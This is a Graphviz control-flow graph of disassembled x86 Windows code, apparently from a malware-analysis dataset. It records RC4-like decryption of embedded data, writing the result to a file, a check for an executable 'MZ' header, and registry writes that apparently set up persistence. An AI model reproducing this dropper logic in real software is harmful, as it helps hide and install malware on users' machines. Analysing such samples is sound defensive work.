a0x004015c8pushl_0x80UINT32[label="0x004015c8\npushl $0x80<UINT32>"];
a0x004015cdpushl_0x2UINT8[label="0x004015cd\npushl $0x2<UINT8>"];
a0x004015cfpushl_0x0UINT8[label="0x004015cf\npushl $0x0<UINT8>"];
a0x004015d1pushl_0x2UINT8[label="0x004015d1\npushl $0x2<UINT8>"];
a0x004015d3pushl_0x40000000UINT32[label="0x004015d3\npushl $0x40000000<UINT32>"];
a0x004015d8leal__2172ebp__edx[label="0x004015d8\nleal -2172(%ebp), %edx"];
a0x004015depushl_edx[label="0x004015de\npushl %edx"];
a0x004015dfcall_CreateFileA_kernel32_dll[label="0x004015df\ncall CreateFileA@kernel32.dll"];
CreateFileA_kernel32_dll[label="CreateFileA@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x004015e5movl_eax__2176ebp_[label="0x004015e5\nmovl %eax, -2176(%ebp)"];
a0x004015ebcmpl_0xffffffffUINT8__2176ebp_[label="0x004015eb\ncmpl $0xffffffff<UINT8>, -2176(%ebp)"];
a0x004015f2je_0x00401821[label="0x004015f2\nje 0x00401821"];
a0x004015f8movl_0x0UINT32__1556ebp_[label="0x004015f8\nmovl $0x0<UINT32>, -1556(%ebp)"];
a0x00401602jmp_0x00401615[label="0x00401602\njmp 0x00401615"];
a0x00401615movl__1556ebp__ecx[label="0x00401615\nmovl -1556(%ebp), %ecx"];
a0x0040161bcmpl__1548ebp__ecx[label="0x0040161b\ncmpl -1548(%ebp), %ecx"];
a0x00401621jae_0x0040170f[label="0x00401621\njae 0x0040170f"];
a0x00401627pushl_0x200UINT32[label="0x00401627\npushl $0x200<UINT32>"];
a0x0040162cmovl__4ebp__edx[label="0x0040162c\nmovl -4(%ebp), %edx"];
a0x0040162faddl__1556ebp__edx[label="0x0040162f\naddl -1556(%ebp), %edx"];
a0x00401635pushl_edx[label="0x00401635\npushl %edx"];
a0x00401636leal__1028ebp__eax[label="0x00401636\nleal -1028(%ebp), %eax"];
a0x0040163cpushl_eax[label="0x0040163c\npushl %eax"];
a0x0040163dcall_0x004049a4[label="0x0040163d\ncall 0x004049a4"];
a0x00401643movl_0x0UINT32__1552ebp_[label="0x00401643\nmovl $0x0<UINT32>, -1552(%ebp)"];
a0x0040164djmp_0x0040165e[label="0x0040164d\njmp 0x0040165e"];
a0x0040165ecmpl_0x5UINT8__1552ebp_[label="0x0040165e\ncmpl $0x5<UINT8>, -1552(%ebp)"];
a0x00401665jae_0x004016c7[label="0x00401665\njae 0x004016c7"];
a0x00401667leal__2436ebp__edx[label="0x00401667\nleal -2436(%ebp), %edx"];
a0x0040166dpushl_edx[label="0x0040166d\npushl %edx"];
a0x0040166emovl__1552ebp__eax[label="0x0040166e\nmovl -1552(%ebp), %eax"];
a0x00401674imull_0x410UINT32_eax_eax[label="0x00401674\nimull $0x410<UINT32>, %eax, %eax"];
a0x0040167amovl_0x403000eax__ecx[label="0x0040167a\nmovl 0x403000(%eax), %ecx"];
a0x00401680pushl_ecx[label="0x00401680\npushl %ecx"];
a0x00401681movl__1552ebp__edx[label="0x00401681\nmovl -1552(%ebp), %edx"];
a0x00401687imull_0x410UINT32_edx_edx[label="0x00401687\nimull $0x410<UINT32>, %edx, %edx"];
a0x0040168daddl_0x403004UINT32_edx[label="0x0040168d\naddl $0x403004<UINT32>, %edx"];
a0x00401693pushl_edx[label="0x00401693\npushl %edx"];
a0x00401694call_0x00401000[label="0x00401694\ncall 0x00401000"];
a0x00401000pushl_ebp[label="0x00401000\npushl %ebp"];
a0x00401001movl_esp_ebp[label="0x00401001\nmovl %esp, %ebp"];
a0x00401003subl_0x14UINT8_esp[label="0x00401003\nsubl $0x14<UINT8>, %esp"];
a0x00401006movl_0x10ebp__eax[label="0x00401006\nmovl 0x10(%ebp), %eax"];
a0x00401009movl_eax__8ebp_[label="0x00401009\nmovl %eax, -8(%ebp)"];
a0x0040100cmovl_0x0UINT32__12ebp_[label="0x0040100c\nmovl $0x0<UINT32>, -12(%ebp)"];
a0x00401013jmp_0x0040101e[label="0x00401013\njmp 0x0040101e"];
a0x0040101ecmpl_0x100UINT32__12ebp_[label="0x0040101e\ncmpl $0x100<UINT32>, -12(%ebp)"];
a0x00401025jnl_0x00401034[label="0x00401025\njnl 0x00401034"];
a0x00401027movl__8ebp__edx[label="0x00401027\nmovl -8(%ebp), %edx"];
a0x0040102aaddl__12ebp__edx[label="0x0040102a\naddl -12(%ebp), %edx"];
a0x0040102dmovb__12ebp__al[label="0x0040102d\nmovb -12(%ebp), %al"];
a0x00401030movb_al_edx_[label="0x00401030\nmovb %al, (%edx)"];
a0x00401032jmp_0x00401015[label="0x00401032\njmp 0x00401015"];
a0x00401015movl__12ebp__ecx[label="0x00401015\nmovl -12(%ebp), %ecx"];
a0x00401018addl_0x1UINT8_ecx[label="0x00401018\naddl $0x1<UINT8>, %ecx"];
a0x0040101bmovl_ecx__12ebp_[label="0x0040101b\nmovl %ecx, -12(%ebp)"];
a0x00401034movb_0x0UINT8__20ebp_[label="0x00401034\nmovb $0x0<UINT8>, -20(%ebp)"];
a0x00401038movl_0x10ebp__ecx[label="0x00401038\nmovl 0x10(%ebp), %ecx"];
a0x0040103bmovb__20ebp__dl[label="0x0040103b\nmovb -20(%ebp), %dl"];
a0x0040103emovb_dl_0x101ecx_[label="0x0040103e\nmovb %dl, 0x101(%ecx)"];
a0x00401044movl_0x10ebp__eax[label="0x00401044\nmovl 0x10(%ebp), %eax"];
a0x00401047movb__20ebp__cl[label="0x00401047\nmovb -20(%ebp), %cl"];
a0x0040104amovb_cl_0x100eax_[label="0x0040104a\nmovb %cl, 0x100(%eax)"];
a0x00401050movl_0x0UINT32__16ebp_[label="0x00401050\nmovl $0x0<UINT32>, -16(%ebp)"];
a0x00401057movl__16ebp__edx[label="0x00401057\nmovl -16(%ebp), %edx"];
a0x0040105amovl_edx__12ebp_[label="0x0040105a\nmovl %edx, -12(%ebp)"];
a0x0040105djmp_0x00401072[label="0x0040105d\njmp 0x00401072"];
a0x00401072cmpl_0x100UINT32__12ebp_[label="0x00401072\ncmpl $0x100<UINT32>, -12(%ebp)"];
a0x00401079jnl_0x004010d5[label="0x00401079\njnl 0x004010d5"];
a0x0040107bmovl__8ebp__ecx[label="0x0040107b\nmovl -8(%ebp), %ecx"];
a0x0040107eaddl__12ebp__ecx[label="0x0040107e\naddl -12(%ebp), %ecx"];
a0x00401081movb_ecx__dl[label="0x00401081\nmovb (%ecx), %dl"];
a0x00401083movb_dl__4ebp_[label="0x00401083\nmovb %dl, -4(%ebp)"];
a0x00401086movl__4ebp__eax[label="0x00401086\nmovl -4(%ebp), %eax"];
a0x00401089andl_0xffUINT32_eax[label="0x00401089\nandl $0xff<UINT32>, %eax"];
a0x0040108emovl_0x8ebp__ecx[label="0x0040108e\nmovl 0x8(%ebp), %ecx"];
a0x00401091addl__16ebp__ecx[label="0x00401091\naddl -16(%ebp), %ecx"];
a0x00401094xorl_edx_edx[label="0x00401094\nxorl %edx, %edx"];
a0x00401096movb_ecx__dl[label="0x00401096\nmovb (%ecx), %dl"];
a0x00401098addl_edx_eax[label="0x00401098\naddl %edx, %eax"];
a0x0040109amovb__20ebp__cl[label="0x0040109a\nmovb -20(%ebp), %cl"];
a0x0040109daddb_al_cl[label="0x0040109d\naddb %al, %cl"];
a0x0040109fmovb_cl__20ebp_[label="0x0040109f\nmovb %cl, -20(%ebp)"];
a0x004010a2movl__16ebp__edx[label="0x004010a2\nmovl -16(%ebp), %edx"];
a0x004010a5addl_0x1UINT8_edx[label="0x004010a5\naddl $0x1<UINT8>, %edx"];
a0x004010a8movl_edx__16ebp_[label="0x004010a8\nmovl %edx, -16(%ebp)"];
a0x004010abmovl__20ebp__eax[label="0x004010ab\nmovl -20(%ebp), %eax"];
a0x004010aeandl_0xffUINT32_eax[label="0x004010ae\nandl $0xff<UINT32>, %eax"];
a0x004010b3movl__8ebp__ecx[label="0x004010b3\nmovl -8(%ebp), %ecx"];
a0x004010b6addl__12ebp__ecx[label="0x004010b6\naddl -12(%ebp), %ecx"];
a0x004010b9movl__8ebp__edx[label="0x004010b9\nmovl -8(%ebp), %edx"];
a0x004010bcmovb_edxeax__al[label="0x004010bc\nmovb (%edx,%eax), %al"];
a0x004010bfmovb_al_ecx_[label="0x004010bf\nmovb %al, (%ecx)"];
a0x004010c1movl__20ebp__ecx[label="0x004010c1\nmovl -20(%ebp), %ecx"];
a0x004010c4andl_0xffUINT32_ecx[label="0x004010c4\nandl $0xff<UINT32>, %ecx"];
a0x004010camovl__8ebp__edx[label="0x004010ca\nmovl -8(%ebp), %edx"];
a0x004010cdmovb__4ebp__al[label="0x004010cd\nmovb -4(%ebp), %al"];
a0x004010d0movb_al_edxecx_[label="0x004010d0\nmovb %al, (%edx,%ecx)"];
a0x004010d3jmp_0x0040105f[label="0x004010d3\njmp 0x0040105f"];
a0x0040105fmovl__12ebp__eax[label="0x0040105f\nmovl -12(%ebp), %eax"];
a0x00401062addl_0x1UINT8_eax[label="0x00401062\naddl $0x1<UINT8>, %eax"];
a0x00401065movl_eax__12ebp_[label="0x00401065\nmovl %eax, -12(%ebp)"];
a0x00401068movl__16ebp__eax[label="0x00401068\nmovl -16(%ebp), %eax"];
a0x0040106bcltd_[label="0x0040106b\ncltd "];
a0x0040106cidivl_0xcebp__eax[label="0x0040106c\nidivl 0xc(%ebp), %eax"];
a0x0040106fmovl_edx__16ebp_[label="0x0040106f\nmovl %edx, -16(%ebp)"];
a0x004010d5movl_ebp_esp[label="0x004010d5\nmovl %ebp, %esp"];
a0x004010d7popl_ebp[label="0x004010d7\npopl %ebp"];
a0x004010d8ret[label="0x004010d8\nret"];
a0x00401699addl_0xcUINT8_esp[label="0x00401699\naddl $0xc<UINT8>, %esp"];
a0x0040169cleal__2436ebp__eax[label="0x0040169c\nleal -2436(%ebp), %eax"];
a0x004016a2pushl_eax[label="0x004016a2\npushl %eax"];
a0x004016a3movl__1552ebp__ecx[label="0x004016a3\nmovl -1552(%ebp), %ecx"];
a0x004016a9imull_0x410UINT32_ecx_ecx[label="0x004016a9\nimull $0x410<UINT32>, %ecx, %ecx"];
a0x004016afmovl_0x40300cecx__edx[label="0x004016af\nmovl 0x40300c(%ecx), %edx"];
a0x004016b5pushl_edx[label="0x004016b5\npushl %edx"];
a0x004016b6leal__1028ebp__eax[label="0x004016b6\nleal -1028(%ebp), %eax"];
a0x004016bcpushl_eax[label="0x004016bc\npushl %eax"];
a0x004016bdcall_0x004010d9[label="0x004016bd\ncall 0x004010d9"];
a0x004010d9pushl_ebp[label="0x004010d9\npushl %ebp"];
a0x004010damovl_esp_ebp[label="0x004010da\nmovl %esp, %ebp"];
a0x004010dcsubl_0x14UINT8_esp[label="0x004010dc\nsubl $0x14<UINT8>, %esp"];
a0x004010dfpushl_esi[label="0x004010df\npushl %esi"];
a0x004010e0movl_0x10ebp__eax[label="0x004010e0\nmovl 0x10(%ebp), %eax"];
a0x004010e3movl_eax__8ebp_[label="0x004010e3\nmovl %eax, -8(%ebp)"];
a0x004010e6movl_0x10ebp__ecx[label="0x004010e6\nmovl 0x10(%ebp), %ecx"];
a0x004010e9movb_0x100ecx__dl[label="0x004010e9\nmovb 0x100(%ecx), %dl"];
a0x004010efmovb_dl__12ebp_[label="0x004010ef\nmovb %dl, -12(%ebp)"];
a0x004010f2movl_0x10ebp__eax[label="0x004010f2\nmovl 0x10(%ebp), %eax"];
a0x004010f5movb_0x101eax__cl[label="0x004010f5\nmovb 0x101(%eax), %cl"];
a0x004010fbmovb_cl__20ebp_[label="0x004010fb\nmovb %cl, -20(%ebp)"];
a0x004010femovl_0x0UINT32__16ebp_[label="0x004010fe\nmovl $0x0<UINT32>, -16(%ebp)"];
a0x00401105jmp_0x00401110[label="0x00401105\njmp 0x00401110"];
a0x00401110movl__16ebp__eax[label="0x00401110\nmovl -16(%ebp), %eax"];
a0x00401113cmpl_0xcebp__eax[label="0x00401113\ncmpl 0xc(%ebp), %eax"];
a0x00401116jge_0x004011a8[label="0x00401116\njge 0x004011a8"];
a0x0040111cmovb__12ebp__cl[label="0x0040111c\nmovb -12(%ebp), %cl"];
a0x0040111faddb_0x1UINT8_cl[label="0x0040111f\naddb $0x1<UINT8>, %cl"];
a0x00401122movb_cl__12ebp_[label="0x00401122\nmovb %cl, -12(%ebp)"];
a0x00401125movl__12ebp__edx[label="0x00401125\nmovl -12(%ebp), %edx"];
a0x00401128andl_0xffUINT32_edx[label="0x00401128\nandl $0xff<UINT32>, %edx"];
a0x0040112emovl__8ebp__eax[label="0x0040112e\nmovl -8(%ebp), %eax"];
a0x00401131movb_eaxedx__cl[label="0x00401131\nmovb (%eax,%edx), %cl"];
a0x00401134movb_cl__4ebp_[label="0x00401134\nmovb %cl, -4(%ebp)"];
a0x00401137movb__20ebp__dl[label="0x00401137\nmovb -20(%ebp), %dl"];
a0x0040113aaddb__4ebp__dl[label="0x0040113a\naddb -4(%ebp), %dl"];
a0x0040113dmovb_dl__20ebp_[label="0x0040113d\nmovb %dl, -20(%ebp)"];
a0x00401140movl__20ebp__eax[label="0x00401140\nmovl -20(%ebp), %eax"];
a0x00401143andl_0xffUINT32_eax[label="0x00401143\nandl $0xff<UINT32>, %eax"];
a0x00401148movl__12ebp__ecx[label="0x00401148\nmovl -12(%ebp), %ecx"];
a0x0040114bandl_0xffUINT32_ecx[label="0x0040114b\nandl $0xff<UINT32>, %ecx"];
a0x00401151movl__8ebp__edx[label="0x00401151\nmovl -8(%ebp), %edx"];
a0x00401154movl__8ebp__esi[label="0x00401154\nmovl -8(%ebp), %esi"];
a0x00401157movb_esieax__al[label="0x00401157\nmovb (%esi,%eax), %al"];
a0x0040115amovb_al_edxecx_[label="0x0040115a\nmovb %al, (%edx,%ecx)"];
a0x0040115dmovl__20ebp__ecx[label="0x0040115d\nmovl -20(%ebp), %ecx"];
a0x00401160andl_0xffUINT32_ecx[label="0x00401160\nandl $0xff<UINT32>, %ecx"];
a0x00401166movl__8ebp__edx[label="0x00401166\nmovl -8(%ebp), %edx"];
a0x00401169movb__4ebp__al[label="0x00401169\nmovb -4(%ebp), %al"];
a0x0040116cmovb_al_edxecx_[label="0x0040116c\nmovb %al, (%edx,%ecx)"];
a0x0040116fmovl__12ebp__ecx[label="0x0040116f\nmovl -12(%ebp), %ecx"];
a0x00401172andl_0xffUINT32_ecx[label="0x00401172\nandl $0xff<UINT32>, %ecx"];
a0x00401178movl__8ebp__edx[label="0x00401178\nmovl -8(%ebp), %edx"];
a0x0040117bmovb__4ebp__al[label="0x0040117b\nmovb -4(%ebp), %al"];
a0x0040117eaddb_edxecx__al[label="0x0040117e\naddb (%edx,%ecx), %al"];
a0x00401181movb_al__4ebp_[label="0x00401181\nmovb %al, -4(%ebp)"];
a0x00401184movl__4ebp__ecx[label="0x00401184\nmovl -4(%ebp), %ecx"];
a0x00401187andl_0xffUINT32_ecx[label="0x00401187\nandl $0xff<UINT32>, %ecx"];
a0x0040118dmovl_0x8ebp__edx[label="0x0040118d\nmovl 0x8(%ebp), %edx"];
a0x00401190addl__16ebp__edx[label="0x00401190\naddl -16(%ebp), %edx"];
a0x00401193movl__8ebp__eax[label="0x00401193\nmovl -8(%ebp), %eax"];
a0x00401196movb_edx__dl[label="0x00401196\nmovb (%edx), %dl"];
a0x00401198xorb_eaxecx__dl[label="0x00401198\nxorb (%eax,%ecx), %dl"];
a0x0040119bmovl_0x8ebp__eax[label="0x0040119b\nmovl 0x8(%ebp), %eax"];
a0x0040119eaddl__16ebp__eax[label="0x0040119e\naddl -16(%ebp), %eax"];
a0x004011a1movb_dl_eax_[label="0x004011a1\nmovb %dl, (%eax)"];
a0x004011a3jmp_0x00401107[label="0x004011a3\njmp 0x00401107"];
a0x00401107movl__16ebp__edx[label="0x00401107\nmovl -16(%ebp), %edx"];
a0x0040110aaddl_0x1UINT8_edx[label="0x0040110a\naddl $0x1<UINT8>, %edx"];
a0x0040110dmovl_edx__16ebp_[label="0x0040110d\nmovl %edx, -16(%ebp)"];
a0x004011a8movl_0x10ebp__ecx[label="0x004011a8\nmovl 0x10(%ebp), %ecx"];
a0x004011abmovb__12ebp__dl[label="0x004011ab\nmovb -12(%ebp), %dl"];
a0x004011aemovb_dl_0x100ecx_[label="0x004011ae\nmovb %dl, 0x100(%ecx)"];
a0x004011b4movl_0x10ebp__eax[label="0x004011b4\nmovl 0x10(%ebp), %eax"];
a0x004011b7movb__20ebp__cl[label="0x004011b7\nmovb -20(%ebp), %cl"];
a0x004011bamovb_cl_0x101eax_[label="0x004011ba\nmovb %cl, 0x101(%eax)"];
a0x004011c0popl_esi[label="0x004011c0\npopl %esi"];
a0x004011c1movl_ebp_esp[label="0x004011c1\nmovl %ebp, %esp"];
a0x004011c3popl_ebp[label="0x004011c3\npopl %ebp"];
a0x004011c4ret[label="0x004011c4\nret"];
a0x004016c2addl_0xcUINT8_esp[label="0x004016c2\naddl $0xc<UINT8>, %esp"];
a0x004016c5jmp_0x0040164f[label="0x004016c5\njmp 0x0040164f"];
a0x0040164fmovl__1552ebp__ecx[label="0x0040164f\nmovl -1552(%ebp), %ecx"];
a0x00401655addl_0x1UINT8_ecx[label="0x00401655\naddl $0x1<UINT8>, %ecx"];
a0x00401658movl_ecx__1552ebp_[label="0x00401658\nmovl %ecx, -1552(%ebp)"];
a0x004016c7cmpl_0x0UINT8__1556ebp_[label="0x004016c7\ncmpl $0x0<UINT8>, -1556(%ebp)"];
a0x004016cejne_0x004016e8[label="0x004016ce\njne 0x004016e8"];
a0x004016d0movb__1028ebp__cl[label="0x004016d0\nmovb -1028(%ebp), %cl"];
a0x004016d6movb_cl__1636ebp_[label="0x004016d6\nmovb %cl, -1636(%ebp)"];
a0x004016dcmovb__1027ebp__dl[label="0x004016dc\nmovb -1027(%ebp), %dl"];
a0x004016e2movb_dl__1560ebp_[label="0x004016e2\nmovb %dl, -1560(%ebp)"];
a0x004016e8pushl_0x0UINT8[label="0x004016e8\npushl $0x0<UINT8>"];
a0x004016ealeal__1632ebp__eax[label="0x004016ea\nleal -1632(%ebp), %eax"];
a0x004016f0pushl_eax[label="0x004016f0\npushl %eax"];
a0x004016f1pushl_0x200UINT32[label="0x004016f1\npushl $0x200<UINT32>"];
a0x004016f6leal__1028ebp__ecx[label="0x004016f6\nleal -1028(%ebp), %ecx"];
a0x004016fcpushl_ecx[label="0x004016fc\npushl %ecx"];
a0x004016fdmovl__2176ebp__edx[label="0x004016fd\nmovl -2176(%ebp), %edx"];
a0x00401703pushl_edx[label="0x00401703\npushl %edx"];
a0x00401704call_WriteFile_kernel32_dll[label="0x00401704\ncall WriteFile@kernel32.dll"];
WriteFile_kernel32_dll[label="WriteFile@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x0040170ajmp_0x00401604[label="0x0040170a\njmp 0x00401604"];
a0x00401604movl__1556ebp__eax[label="0x00401604\nmovl -1556(%ebp), %eax"];
a0x0040160aaddl_0x200UINT32_eax[label="0x0040160a\naddl $0x200<UINT32>, %eax"];
a0x0040160fmovl_eax__1556ebp_[label="0x0040160f\nmovl %eax, -1556(%ebp)"];
a0x0040170fmovl__2176ebp__eax[label="0x0040170f\nmovl -2176(%ebp), %eax"];
a0x00401715pushl_eax[label="0x00401715\npushl %eax"];
a0x00401716call_CloseHandle_kernel32_dll[label="0x00401716\ncall CloseHandle@kernel32.dll"];
CloseHandle_kernel32_dll[label="CloseHandle@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x0040171cmovsbl__1636ebp__ecx[label="0x0040171c\nmovsbl -1636(%ebp), %ecx"];
a0x00401723cmpl_0x4dUINT8_ecx[label="0x00401723\ncmpl $0x4d<UINT8>, %ecx"];
a0x00401726jne_0x00401821[label="0x00401726\njne 0x00401821"];
a0x004018aeaddl_0xcUINT8_esp[label="0x004018ae\naddl $0xc<UINT8>, %esp"];
a0x004018b1pushl_0x0UINT8[label="0x004018b1\npushl $0x0<UINT8>"];
a0x004018b3pushl_0x1UINT8[label="0x004018b3\npushl $0x1<UINT8>"];
a0x004018b5pushl_0x4045e8UINT32[label="0x004018b5\npushl $0x4045e8<UINT32>"];
a0x004018bacall_0x00401475[label="0x004018ba\ncall 0x00401475"];
a0x004018bfaddl_0xcUINT8_esp[label="0x004018bf\naddl $0xc<UINT8>, %esp"];
a0x004018c2pushl_0x0UINT8[label="0x004018c2\npushl $0x0<UINT8>"];
a0x004018c4pushl_0x1UINT8[label="0x004018c4\npushl $0x1<UINT8>"];
a0x004018c6pushl_0x404618UINT32[label="0x004018c6\npushl $0x404618<UINT32>"];
a0x004018cbcall_0x00401475[label="0x004018cb\ncall 0x00401475"];
a0x004018d0addl_0xcUINT8_esp[label="0x004018d0\naddl $0xc<UINT8>, %esp"];
a0x004018d3pushl_0x0UINT8[label="0x004018d3\npushl $0x0<UINT8>"];
a0x004018d5pushl_0x1UINT8[label="0x004018d5\npushl $0x1<UINT8>"];
a0x004018d7pushl_0x404648UINT32[label="0x004018d7\npushl $0x404648<UINT32>"];
a0x004018dccall_0x00401475[label="0x004018dc\ncall 0x00401475"];
a0x004018e1addl_0xcUINT8_esp[label="0x004018e1\naddl $0xc<UINT8>, %esp"];
a0x004018e4pushl_0x0UINT8[label="0x004018e4\npushl $0x0<UINT8>"];
a0x004018e6pushl_0x1UINT8[label="0x004018e6\npushl $0x1<UINT8>"];
a0x004018e8pushl_0x404674UINT32[label="0x004018e8\npushl $0x404674<UINT32>"];
a0x004018edcall_0x00401475[label="0x004018ed\ncall 0x00401475"];
a0x004018f2addl_0xcUINT8_esp[label="0x004018f2\naddl $0xc<UINT8>, %esp"];
a0x004018f5pushl_0x0UINT8[label="0x004018f5\npushl $0x0<UINT8>"];
a0x004018f7pushl_0x1UINT8[label="0x004018f7\npushl $0x1<UINT8>"];
a0x004018f9pushl_0x404698UINT32[label="0x004018f9\npushl $0x404698<UINT32>"];
a0x004018fecall_0x00401475[label="0x004018fe\ncall 0x00401475"];
a0x00401903addl_0xcUINT8_esp[label="0x00401903\naddl $0xc<UINT8>, %esp"];
a0x00401906pushl_0x1UINT8[label="0x00401906\npushl $0x1<UINT8>"];
a0x00401908pushl_0x0UINT8[label="0x00401908\npushl $0x0<UINT8>"];
a0x0040190apushl_0x4046bcUINT32[label="0x0040190a\npushl $0x4046bc<UINT32>"];
a0x0040190fcall_0x00401475[label="0x0040190f\ncall 0x00401475"];
a0x00401865pushl_ebp -> a0x00401866movl_esp_ebp [color="#000000"];
a0x00401866movl_esp_ebp -> a0x00401868pushl_0x8002UINT32 [color="#000000"];
a0x00401868pushl_0x8002UINT32 -> a0x0040186dcall_SetErrorMode_kernel32_dll [color="#000000"];
a0x0040186dcall_SetErrorMode_kernel32_dll -> SetErrorMode_kernel32_dll [color="#000000"];
SetErrorMode_kernel32_dll -> a0x00401873pushl_0x40457cUINT32 [color="#000000"];
a0x00401873pushl_0x40457cUINT32 -> a0x00401878pushl_0x40458cUINT32 [color="#000000"];
a0x00401878pushl_0x40458cUINT32 -> a0x0040187dcall_GetModuleHandleA_kernel32_dll [color="#000000"];
a0x0040187dcall_GetModuleHandleA_kernel32_dll -> GetModuleHandleA_kernel32_dll [color="#000000"];
GetModuleHandleA_kernel32_dll -> a0x00401883pushl_eax [color="#000000"];
a0x00401883pushl_eax -> a0x00401884call_GetProcAddress_kernel32_dll [color="#000000"];
a0x00401884call_GetProcAddress_kernel32_dll -> GetProcAddress_kernel32_dll [color="#000000"];
GetProcAddress_kernel32_dll -> a0x0040188amovl_eax_0x004049a4 [color="#000000"];
a0x0040188amovl_eax_0x004049a4 -> a0x0040188fpushl_0x0UINT8 [color="#000000"];
a0x0040188fpushl_0x0UINT8 -> a0x00401891pushl_0x1UINT8 [color="#000000"];
a0x00401891pushl_0x1UINT8 -> a0x00401893pushl_0x404598UINT32 [color="#000000"];
a0x00401893pushl_0x404598UINT32 -> a0x00401898call_0x00401475 [color="#000000"];
a0x00401898call_0x00401475 -> a0x00401475pushl_ebp [color="#000000"];
a0x00401475pushl_ebp -> a0x00401476movl_esp_ebp [color="#000000"];
a0x00401476movl_esp_ebp -> a0x00401478subl_0x984UINT32_esp [color="#000000"];
a0x00401478subl_0x984UINT32_esp -> a0x0040147emovl_0x104UINT32__1632ebp_ [color="#000000"];
a0x0040147emovl_0x104UINT32__1632ebp_ -> a0x00401488movl_0x0UINT32__1548ebp_ [color="#000000"];
a0x00401488movl_0x0UINT32__1548ebp_ -> a0x00401492pushl_0x200UINT32 [color="#000000"];
a0x00401492pushl_0x200UINT32 -> a0x00401497leal__1540ebp__eax [color="#000000"];
a0x00401497leal__1540ebp__eax -> a0x0040149dpushl_eax [color="#000000"];
a0x0040149dpushl_eax -> a0x0040149epushl_0x0UINT8 [color="#000000"];
a0x0040149epushl_0x0UINT8 -> a0x004014a0call_GetModuleFileNameA_kernel32_dll [color="#000000"];
a0x004014a0call_GetModuleFileNameA_kernel32_dll -> GetModuleFileNameA_kernel32_dll [color="#000000"];
GetModuleFileNameA_kernel32_dll -> a0x004014a6leal__1544ebp__ecx [color="#000000"];
a0x004014a6leal__1544ebp__ecx -> a0x004014acpushl_ecx [color="#000000"];
a0x004014acpushl_ecx -> a0x004014adpushl_0x40447cUINT32 [color="#000000"];
a0x004014adpushl_0x40447cUINT32 -> a0x004014b2pushl_0x80000002UINT32 [color="#000000"];
a0x004014b2pushl_0x80000002UINT32 -> a0x004014b7call_RegOpenKeyA_advapi32_dll [color="#000000"];
a0x004014b7call_RegOpenKeyA_advapi32_dll -> RegOpenKeyA_advapi32_dll [color="#000000"];
RegOpenKeyA_advapi32_dll -> a0x004014bdtestl_eax_eax [color="#000000"];
a0x004014bdtestl_eax_eax -> a0x004014bfjne_0x0040150a [color="#000000"];
a0x004014bfjne_0x0040150a -> a0x004014c1leal__1540ebp__edx [color="#000000",label="F"];
a0x004014c1leal__1540ebp__edx -> a0x004014c7pushl_edx [color="#000000"];
a0x004014c7pushl_edx -> a0x004014c8pushl_0x4044f4UINT32 [color="#000000"];
a0x004014c8pushl_0x4044f4UINT32 -> a0x004014cdleal__1028ebp__eax [color="#000000"];
a0x004014cdleal__1028ebp__eax -> a0x004014d3pushl_eax [color="#000000"];
a0x004014d3pushl_eax -> a0x004014d4call_wsprintfA_user32_dll [color="#000000"];
a0x004014d4call_wsprintfA_user32_dll -> wsprintfA_user32_dll [color="#000000"];
wsprintfA_user32_dll -> a0x004014daaddl_0xcUINT8_esp [color="#000000"];
a0x004014daaddl_0xcUINT8_esp -> a0x004014ddleal__1028ebp__ecx [color="#000000"];
a0x004014ddleal__1028ebp__ecx -> a0x004014e3pushl_ecx [color="#000000"];
a0x004014e3pushl_ecx -> a0x004014e4call_lstrlenA_kernel32_dll [color="#000000"];
a0x004014e4call_lstrlenA_kernel32_dll -> lstrlenA_kernel32_dll [color="#000000"];
lstrlenA_kernel32_dll -> a0x004014eapushl_eax [color="#000000"];
a0x004014eapushl_eax -> a0x004014ebleal__1028ebp__edx [color="#000000"];
a0x004014ebleal__1028ebp__edx -> a0x004014f1pushl_edx [color="#000000"];
a0x004014f1pushl_edx -> a0x004014f2pushl_0x1UINT8 [color="#000000"];
a0x004014f2pushl_0x1UINT8 -> a0x004014f4pushl_0x0UINT8 [color="#000000"];
a0x004014f4pushl_0x0UINT8 -> a0x004014f6leal__1540ebp__eax [color="#000000"];
a0x004014f6leal__1540ebp__eax -> a0x004014fcpushl_eax [color="#000000"];
a0x004014fcpushl_eax -> a0x004014fdmovl__1544ebp__ecx [color="#000000"];
a0x004014fdmovl__1544ebp__ecx -> a0x00401503pushl_ecx [color="#000000"];
a0x00401503pushl_ecx -> a0x00401504call_RegSetValueExA_advapi32_dll [color="#000000"];
a0x00401504call_RegSetValueExA_advapi32_dll -> RegSetValueExA_advapi32_dll [color="#000000"];
RegSetValueExA_advapi32_dll -> a0x0040150amovl__1544ebp__edx [color="#000000"];
a0x0040150amovl__1544ebp__edx -> a0x00401510pushl_edx [color="#000000"];
a0x00401510pushl_edx -> a0x00401511call_RegCloseKey_advapi32_dll [color="#000000"];
a0x00401511call_RegCloseKey_advapi32_dll -> RegCloseKey_advapi32_dll [color="#000000"];
RegCloseKey_advapi32_dll -> a0x00401517leal__1544ebp__eax [color="#000000"];
a0x00401517leal__1544ebp__eax -> a0x0040151dpushl_eax [color="#000000"];
a0x0040151dpushl_eax -> a0x0040151epushl_0xf003fUINT32 [color="#000000"];
a0x0040151epushl_0xf003fUINT32 -> a0x00401523pushl_0x0UINT8 [color="#000000"];
a0x00401523pushl_0x0UINT8 -> a0x00401525pushl_0x404508UINT32 [color="#000000"];
a0x00401525pushl_0x404508UINT32 -> a0x0040152apushl_0x80000001UINT32 [color="#000000"];
a0x0040152apushl_0x80000001UINT32 -> a0x0040152fcall_RegOpenKeyExA_advapi32_dll [color="#000000"];
a0x0040152fcall_RegOpenKeyExA_advapi32_dll -> RegOpenKeyExA_advapi32_dll [color="#000000"];
RegOpenKeyExA_advapi32_dll -> a0x00401535testl_eax_eax [color="#000000"];
a0x00401535testl_eax_eax -> a0x00401537jne_0x0040156f [color="#000000"];
a0x00401537jne_0x0040156f -> a0x00401539movl_0x0UINT32__1632ebp_ [color="#000000",label="F"];
a0x00401539movl_0x0UINT32__1632ebp_ -> a0x00401543pushl_0x4UINT8 [color="#000000"];
a0x00401543pushl_0x4UINT8 -> a0x00401545leal__1632ebp__ecx [color="#000000"];
a0x00401545leal__1632ebp__ecx -> a0x0040154bpushl_ecx [color="#000000"];
a0x0040154bpushl_ecx -> a0x0040154cpushl_0x4UINT8 [color="#000000"];
a0x0040154cpushl_0x4UINT8 -> a0x0040154epushl_0x0UINT8 [color="#000000"];
